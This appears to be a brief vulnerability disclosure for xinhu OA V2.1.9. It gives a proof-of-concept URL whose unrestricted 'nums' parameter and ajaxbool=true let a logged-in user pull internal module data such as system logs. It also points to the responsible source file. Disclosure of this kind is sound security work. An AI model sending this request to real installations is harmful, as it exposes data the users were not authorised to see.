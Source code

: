 # xinhu-oa
xinhu oa Information leakage
xinhu V2.1.9
After the user logged in, open the following  page
poc：
/index.php?a=gettotal&m=index&d=home&atype=&loadci=&optdt=&nums=gong,kqdk,apply,officic,syslog,about&ajaxbool=true

Display the information in the picture
![image](https://github.com/xuechengen/xinhu-oa/blob/main/%E6%98%BE%E7%A4%BA.JPG)

Check the source code and find that nums is not restricted，/webmain/home/index/indexAction.php
![image](https://github.com/xuechengen/xinhu-oa/blob/main/2.JPG) 

 Change ajaxbool = false to ajaxbool = true

